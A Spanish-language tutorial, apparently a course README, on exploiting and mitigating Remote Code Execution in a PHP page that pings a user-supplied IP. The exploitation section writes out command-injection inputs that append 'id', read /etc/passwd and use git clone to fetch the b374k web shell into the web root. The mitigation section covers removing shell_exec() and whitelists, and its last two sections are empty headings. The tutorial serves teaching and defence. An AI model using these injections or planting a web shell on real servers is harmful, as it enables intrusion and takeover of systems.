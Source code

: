 # Explotación y Mitigación de Remote Code Execution (RCE)

De forma sencilla el ***RCE*** es una vulnerabilidad en la que un servicio web permite hacer una inyección de lenguaje scripting básico, permitiendo a un atacante ejecutar comando sobre el servidor que contiene en servicio web.

El resultado de esos comandos se muestra en la misma página de forma dinámica.

Algunas de las consecuencias que tiene el *RCE*:

+ Acceso a información sensible (usuarios, archivos, configuración).
+ Ejecución de comandos maliciosos (descarga y ejecución de malware).
+ Escalada de privilegios y control total del sistema.

## Indice
> 1. [Creación de página vulnerable a RCE](#)
> 2. [Mitigaciones de RCE](#)
> &nbsp;&nbsp;&nbsp;&nbsp;2.1 [Eliminar el uso de shell_exec()](#)
> &nbsp;&nbsp;&nbsp;&nbsp;2.2 [Listas blancas](#)
> &nbsp;&nbsp;&nbsp;&nbsp;2.3 [Ejecutar Comandos con Escapes Seguros](#)
> &nbsp;&nbsp;&nbsp;&nbsp;2.4 [Prueba final](#)

## Creación de página vulnerable a RCE

Vamos a crear una pequeña página llamada: [rce.php](./Recursos/rce.php) con un input que va a recibir una dirección ip y se va a encargar de hacer ping a ella:

![RCE.php](./Imagenes/1.png)

El uso legítimo de la página es recibir una dirección ip y te muestra el resultado del ping:

![ping](./Imagenes/2.png)

Vamos a probar a introducir el comando ***id*** anidado a una dirección ip de la siguiente manera:

```
8.8.8.8 & id
```

Devueve el resultado del ping y ademas devuelve el resultado del comando id:

![ping](./Imagenes/3.png)

Ahora vamos a listar archivos:

![ping](./Imagenes/4.png)

Vamos a leer el contenido de ***/etc/passwd***:

![ping](./Imagenes/5.png)

Ahora vamos a realizar la prueba de intentar ejecutar malware:

Primero le damos permisos a */var/www/html* en nuestro contenedor:

```
sudo chmod -R 777 /var/www/html/
```
Y ahora intentamos descargarnos el malware desde un repositorio de git:

```
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
```


Al ejecutarse se habra descargado la carpeta **b374k** y dentro de ella varios archivos, entre ellos, **index.html** , que si accedemos a el pode¡remos ejecutar los comandos que queramos:

![ping](./Imagenes/6.png)

![ping](./Imagenes/7.png)

Ya tendriamos el control total del sistema.

## Mitigaciones de RCE


Una vez explotadas la vulnerabilidades vamos a ver como mitigarlas:


Creamos el siguiente archivo llamado [rce2.php](./Recursos/rce2.php) que espera recibir un comando por parámetro por url:


![rce2.php](./Imagenes/8.png)

### Eliminar el uso de shell_exec()

Una forma de mitigación es eliminar la posibilidad de ejecutar comandos eliminando ***shell_exec()***, para ello creamos el archivo [rce3.php](./Recursos/rce3.php):

![rce3.php](./Imagenes/9.png)

Los beneficios de eliminar *shell_exec()* son:

+ Bloquea cualquier intento de ejecución de código en el sistema.
+ Evita ataques RCE de forma definitiva.
+ No necesita más medidas de seguridad, ya que la ejecución de comandos es eliminada.

### Listas blancas

También podemos hacer uso de listas blancas si necesitamos hacer uso de algunos comandos:

Creamos un fichero [rce4.php](./Recursos/rce4.php) con los comandos permitidos '***ls***', '***whoami***' y '***pwd***':

![rce4.php](./Imagenes/10.png)

Si probamos a pasarle un comando de los permitidos funciona:

![rce4.php](./Imagenes/11.png)

En cambio, si introducimos un comando no permitido, nos indica que el comando no esta permitido;

![rce4.php](./Imagenes/12.png)

### Ejecutar Comandos con Escapes Seguros


### Prueba Final
